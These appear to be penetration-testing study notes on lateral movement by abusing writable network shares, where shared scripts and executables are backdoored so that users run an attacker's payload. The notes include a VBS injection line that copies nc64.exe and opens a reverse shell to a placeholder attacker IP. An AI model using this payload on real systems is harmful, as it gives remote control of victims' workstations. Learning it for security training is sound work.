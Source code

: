 - Under certain circumstances, an attacker can take advantage of actions performed by users to gain further access to machines in the network.
- While there are many ways this can happen, we will look at some of the most common ones.


### Abusing `Writable Shares`

- It is quite common to find network shares that legitimate users use to perform day-to-day tasks when checking corporate environments.
- If those shares are `writable` for some reason, an **attacker** can plant specific files to force users into executing any arbitrary payload nad gain access to their machines.

##### Step 1: Executing a binary from a `Network Share`
- One common scenario consists of finding a shortcut to a script or executable file hosted on a network share:

![](/assets/img/Pasted image 20230209091339.png)


- The rationale behind this is that the administrator can maintain an executable on a network share, and users can execute it without copying or installing the application to each user's machine.
- If we, as attackers, have `write` permissions over such **scripts** or **executables**, we can ***backdoor*** them to force users to execute ANY payload we want.


<u>Mechanism</u>: Executing a binary from a network share server

![](/assets/img/Pasted image 20230209092425.png)

	- Although the script or executable is hosted on a server, when a user opens the shortcut on his workstation, the executable will be copied from the server to its `%temp%` folder and executed on the workstation.
	- Note that the server has the Shared resources and 'binary.exe' is just a placeholder example.

### Backdooring `.vbs` Scripts

- As an example, if the `shared resource` is a ***VBS script***, we can put a copy of `nc64.exe` on the same share and inject the following code in the shared script:

```powershell
> CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip-lateralmovement> 1234", 0, True
```

	- This will copy nc64.exe from the share to the user's workstation "%tmp%" directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

<u>Modelling</u>:

![](/assets/img/Pasted image 20230209093700.png)

	- Note that you can inject the 'nc.exe' command at the end of the found ".VBS" script in the Shared resource using the script just above.


### Backdooring `.exe` Files
